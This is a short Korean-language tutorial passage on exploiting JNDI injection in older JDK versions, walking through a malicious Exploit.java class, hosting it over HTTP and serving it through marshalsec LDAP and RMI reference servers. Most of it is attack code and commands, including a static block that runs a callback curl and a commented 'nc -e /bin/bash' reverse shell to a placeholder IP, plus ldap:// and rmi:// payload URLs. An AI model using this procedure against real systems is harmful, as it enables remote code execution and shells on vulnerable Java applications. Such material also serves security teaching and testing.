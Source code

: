 ![image](/assets/img/2024-05-15-JNDIInjectionTheCompleteStory_3.png)

오래된 JDK 버전에서 JNDI를 악용하기



- 귀하의 악의적인 코드가 포함된 Exploit.java 파일을 만듭니다.

```js
public class Exploit {
    static {
        try {
          java.lang.Runtime.getRuntime().exec⠀("curl burp.com");
          // java.lang.Runtime.getRuntime().exec⠀("nc -e /bin/bash IP 4444");
        } catch (Exception e) {
            e.printStackTrace();
}}
```

2. 코드를 컴파일합니다.

javac Exploit.java -source 8 -target 8



3. Exploit.class를 Http 서버에 호스팅하세요.

```bash
python3 -m http.server 8081
```

4. LDAP/RMI 서버를 실행하세요. 이곳에서는 marshalsec을 사용하여 서버를 시작합니다.

```java
#LDAP
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://PythonServerServingRemoteClass:8081/#Exploit"
```



```js
#RMI
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer  "http://PythonServerServingRemoteClass:8081/#Exploit"
```

5. Execute Payload

- LDAP : ldap://LDAPServerIP:1389/Exploit
- RMI : rmi://RMIServerIP:1099/Exploit
